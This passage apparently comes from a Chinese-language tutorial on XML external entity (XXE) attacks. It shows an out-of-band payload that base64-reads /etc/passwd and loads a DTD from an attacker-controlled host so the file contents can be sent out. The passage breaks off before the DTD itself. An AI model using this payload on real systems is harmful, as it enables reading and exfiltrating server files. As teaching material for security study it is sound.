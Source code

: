 
![img](../../images//f0eae831d3da5679a78fbc6a995955c7.png)

这时候访问该网页使用读取本地文件的payload已经没有返回数据了

![img](../../images//bede281822217a0c4db0a48785fa62fe.png)

### 1. 外带数据读取文件

```xml-dtd
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http:// 192.168.11.241/farm2.dtd">
%dtd;
%send;
]>
```

在另一台服务器或者本服务器的/var/www/html目录创建一个farm2.dtd(也可以用Python的httpserver：python –m SimpleHTTPServer 80),内容如下
